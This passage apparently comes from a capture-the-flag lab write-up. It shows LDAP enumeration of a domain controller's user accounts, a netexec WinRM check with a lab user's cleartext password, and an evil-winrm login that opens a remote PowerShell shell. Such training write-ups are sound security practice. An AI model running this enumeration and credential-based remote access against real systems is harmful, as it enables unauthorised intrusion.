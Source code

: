 ```
LDAP        10.10.11.71     389    DC01             -Username-                    -Last PW Set-       -BadPW-  -Description-                                               
LDAP        10.10.11.71     389    DC01             Administrator                 2025-04-28 21:33:46 0        Built-in account for administering the computer/domain      
LDAP        10.10.11.71     389    DC01             Guest                         <never>             0        Built-in account for guest access to the computer/domain    
LDAP        10.10.11.71     389    DC01             krbtgt                        2024-11-03 09:24:32 0        Key Distribution Center Service Account                     
LDAP        10.10.11.71     389    DC01             Kai.X                         2024-11-04 00:18:06 1                                                                    
LDAP        10.10.11.71     389    DC01             Sara.B                        2024-11-04 02:01:09 0                                                                    
LDAP        10.10.11.71     389    DC01             John.C                        2024-11-04 02:16:41 1                                                                    
LDAP        10.10.11.71     389    DC01             Aya.W                         2024-11-04 02:17:43 1                                                                    
LDAP        10.10.11.71     389    DC01             Nya.S                         2024-11-04 02:18:53 1                                                                    
LDAP        10.10.11.71     389    DC01             Maya.K                        2024-11-04 02:20:01 1                                                                    
LDAP        10.10.11.71     389    DC01             Lion.SK                       2024-11-04 02:28:02 1                                                                    
LDAP        10.10.11.71     389    DC01             Eva.F                         2024-11-04 02:33:36 1                                                                    
LDAP        10.10.11.71     389    DC01             Ryan.K                        2024-11-04 02:57:30 1                                                                    
LDAP        10.10.11.71     389    DC01             akeder.kh                     2024-11-24 02:26:06 1                                                                    
LDAP        10.10.11.71     389    DC01             kara.m                        2024-11-24 02:28:19 1                                                                    
LDAP        10.10.11.71     389    DC01             Alex.D                        2024-11-24 06:47:44 1                                                                    
LDAP        10.10.11.71     389    DC01             karol.s                       2024-11-24 02:42:21 1                                                                    
LDAP        10.10.11.71     389    DC01             saad.m                        2024-11-24 02:44:23 1                                                                    
LDAP        10.10.11.71     389    DC01             xamppuser                     2024-12-29 09:42:04 0  
```

Then check the `evil-winrm` service
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate]
└─$ nxc winrm 10.10.11.71 -u Sara.B -p 'Blink182'   
WINRM       10.10.11.71     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certificate.htb)
WINRM       10.10.11.71     5985   DC01             [+] certificate.htb\Sara.B:Blink182 (Pwn3d!)

┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate]
└─$ evil-winrm -i 10.10.11.71 -u Sara.B -p 'Blink182'       
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Sara.B\Documents> 

```
